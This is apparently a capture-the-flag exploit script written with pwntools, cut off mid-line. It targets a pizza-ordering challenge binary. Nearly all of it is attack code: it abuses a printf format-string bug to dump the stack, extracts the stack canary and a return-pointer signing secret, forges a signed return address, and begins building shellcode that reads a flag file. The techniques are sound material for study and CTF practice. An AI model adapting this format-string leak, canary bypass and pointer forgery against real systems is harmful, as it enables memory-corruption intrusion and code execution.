 ```python
def sendcmds(*nums):
    [sendcmd(num) for num in nums]

#Send order details
def sendorderdetails(title, content):
    p.sendlineafter(b"> ", to_bytes(title))
    p.sendlineafter(b"> ", to_bytes(content))

#Add an order
def addorder(title, content):
    sendcmd(1)
    sendorderdetails(title, content)

#Get the result of a printf vuln (useful for dumping the stack)
def printfvuln(text):
    sendcmds(2,20)
    sendorderdetails("FOO", text)
    sendcmds(4,20)
    delimiter = b"***********************************\n"
    p.recvuntil(delimiter)
    p.recvuntil(delimiter)
    return p.recvuntil(delimiter)[:-len(delimiter)].decode()

#Get bytes from a address in int format
def get_bytes(addr,n=8):
    mask = 0xff
    for b_num in range(n):
        yield (addr&mask) >> (b_num*8)
        mask <<= 8

#Calculate the secret thanks to the information in the stack
def calc_secret():
    search_result = printfvuln("%p."*40).split(".")[37:39]
    bp, ret = search_result
    bp, ret = int(bp,16), int(ret,16)
    sign = ret >> (8*6) #Take signature bytes
    clean_ret = ret & ( ~(0xffff<<(8*6)) )
    sign_bytes = list(get_bytes(clean_ret)) + list(get_bytes(bp))
    for ele in sign_bytes:
        sign ^= ele
        sign ^= ele<<8
    return sign #Now this is calculated the secret

#Get the canary thanks to the information in the stack
def get_canary():
    return int(printfvuln("%p."*40).split(".")[26], 16)

#Taken the base pointer and the return pointer, calculate the stack signed return pointer
def sign_calc(ret, sec, bp = 0xdeadbeefdeadbeef):
    for byte in list(get_bytes(ret)) + list(get_bytes(bp)):
        sec ^= byte
        sec ^= byte<<8
    ret |= sec << (8*6)
    return pack(bp,64)+pack(ret,64)

log.info("Checking service availability")
if not p.recvuntil(b"Choose an option:", timeout=3):
    exit("Server not responding")

proc = log.progress("Crafting shellcode to get the flag")
shellcode_payload = asm(
    shellcraft.cat2("./pizza_secret_recipe") + #cat2 uses legal system calls, cat use sendfile syscall that is illegal
```